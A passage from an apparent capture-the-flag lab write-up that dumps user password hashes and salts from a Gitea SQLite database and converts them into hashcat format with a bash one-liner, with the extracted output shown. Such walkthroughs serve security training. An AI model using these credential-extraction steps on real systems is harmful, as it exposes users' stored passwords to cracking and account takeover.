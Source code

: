 Now, let's query the `user` table to get the user information:

```bash
sqlite3 gitea.db 'select name, email, passwd, passwd_hash_algo, login_name, salt from user;'

administrator|root@titanic.htb|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50||2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|developer@titanic.htb|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50||8bf3e3452b78544f8bee9400d6936d34
```



We can see that there are two users: `administrator` and `developer`. The passwords are hashed using the `pbkdf2` algorithm with a cost of `50000` iterations.


### Converting Gitea Password Hashes for Hashcat

For `hashcat` to be able to crack these hashes, we need to convert them into a format that `hashcat` understands. The format for `pbkdf2` hashes is as follows:

Looking at the `Gitea` documentation on [`github`](https://github.com/go-gitea/gitea/blob/main/modules/auth/password/hash/pbkdf2.go), we can see that it uses the `sha256` hashing algorithm. The format for `hashcat` is:

```
username:sha256:iterations:salt:hash
```

As shown in the `hashcat` [example hash documentation](https://hashcat.net/wiki/doku.php?id=example_hashes)

![NON](file-20250621024656482.png)

To convert the hashes that we have, we can do the following:

```bash
sha256:50000:$(echo -n salt | xxd -r -p | base64 -w0):$(echo -n passwd | xxd -r -p | base64 -w0)
```

To dump the hashes in a format that `hashcat` can understand, we can use a simple script to automate the process. Below is a bash inline script that reads the `gitea.db` file and outputs the hashes in the required format:

```
sqlite3 gitea.db \
'select name, passwd_hash_algo, salt, passwd from user;' | 
while IFS='|' read -r name algo salt passwd;do 
echo "${name}:sha256:50000:$(echo $salt | xxd -r -p|base64 -w0):$(echo $passwd | xxd -r -p|base64 -w0)";
done

administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
